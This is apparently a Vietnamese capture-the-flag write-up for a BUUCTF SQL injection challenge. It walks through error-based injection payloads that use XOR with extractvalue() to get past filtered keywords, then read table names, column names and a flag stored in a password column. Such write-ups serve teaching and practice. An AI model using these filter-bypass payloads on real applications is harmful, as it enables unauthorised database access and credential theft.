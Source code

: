 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/96c61733-4748-4234-9d94-a804bd523724)

Ban đầu, mình có thử các payload cơ bản union, order by nhưng hầu hết đã bị filter hết.Sau khi thử extracvalue() với toán tử XOR thì thành công

Payload:

`username='^extractvalue(1,concat(0x7e,(select(database()))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/8ae8279c-ef36-42b7-9c2f-8a38107e7ad7)

Có table name r tìm column và data thôi.

Payload:

`/check.php?username='^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23&password=x`
 
 
`/check.php?username='^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/be362d52-8779-444b-8d2d-57f71c63ec51)

Flag nằm ở cột password

Payload:

`/check.php?username='^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7ea88f39-e169-417f-9616-3415e9fd0f41)

Nhưng nó vẫn chưa ra hết flag, ta dùng hàm right để tìm phần sau

Payload:

`	/check.php?username='^extractvalue(1,concat(0x7e,(select(right(password,31))from(geek.H4rDsq1))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ea741871-605e-4915-872a-b01a047e5a3a)


